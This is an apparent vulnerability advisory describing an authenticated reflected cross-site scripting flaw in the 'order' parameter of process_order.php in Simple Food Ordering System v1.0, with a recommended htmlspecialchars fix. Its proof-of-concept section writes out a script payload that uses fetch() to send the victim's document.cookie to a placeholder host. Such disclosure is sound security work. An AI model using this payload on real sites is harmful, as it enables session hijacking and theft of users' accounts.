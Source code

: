 # Simple Food Ordering System - Authenticated Reflected Cross Site Scripting

### Date: 
> 17 February 2023

### Author Email: 
> navaidnasari@hotmail.co.uk

### Vendor Homepage:
> https://www.sourcecodester.com

### Software Link:
> [Simple Food Ordering System](https://www.sourcecodester.com/php/15418/simple-food-ordering-system-client-side-phpmysqli-free-source-code.html)

### Version:
> v 1.0

### What is Reflected Cross-Site Scripting:
> Reflected cross-site scripting (XSS) is a type of web vulnerability that occurs when a web application fails to properly sanitize user input, allowing an attacker to inject malicious code into the application's response to a user's request. When the user's browser receives the response, the malicious code is executed, potentially allowing the attacker to steal sensitive information or take control of the user's account.

### Affected Page: 
> Vulnerable Page: process_order.php

> In this page order parameter is vulnerable to Reflected Cross Site Scripting Attack

### Description:
> The Reflected XSS found in order parameter of process_order.php page. Authenticated Reflected Cross-Site Scripting (XSS) is a serious vulnerability that can have a significant impact on the security of a web application and its users. The risk of Authenticated Reflected XSS is similar to that of Reflected XSS, but with the added danger that the attacker must first gain access to a valid user account in order to exploit the vulnerability. The main risk associated with Authenticated Reflected XSS is that it can allow an attacker to steal sensitive information or take control of a user's account on a web application. This can include login credentials, financial information, personal information, and more. Once an attacker gains access to a user's account, they can perform any actions that the user is authorized to do. In addition, Authenticated Reflected XSS can also be used as a stepping stone to launch more advanced attacks, such as phishing attacks, malware distribution, or distributed denial-of-service attacks. By gaining control of a user's account on a web application, an attacker can use that account as a launching point for further attacks against the user or the web application itself.

### Proof of Concept:
> Initially, I tried to verify the XSS attack, I used standard XSS payload <script>alert("Verification");</script> and the Below Image confirmed that, the parameter is vulnerable to reflected XSS.

> Payload: process_order.php?order=<script>alert(1)<%2fscript>mjii5

> ![image](https://user-images.githubusercontent.com/123810418/219716828-62b529c9-8366-4051-8b2c-f9065b158089.png)

> Based on that, I have decided to make it realistic attack and use burp colloborator to hijack user cookie:

> Payload: process_order.php?order=<script>fetch(%27http://dummyurl/%27,{method:%27POST%27,mode:%27no-cors%27,body:document.cookie});</script>

>  ![image](https://user-images.githubusercontent.com/123810418/219717379-d085a7ec-29d4-4d2c-ba19-69e5011891e8.png)

### Recommendation: 
> Whoever uses this CMS, should update line no 41 of process_order.php with the following code to avoid cross-site scripting attack:
```
Old Code: <?php echo $_GET['order']; ?>
New Code: <?php echo htmlspecialchars(strip_tags($_GET['order'])); ?>
```

Thank you for reading
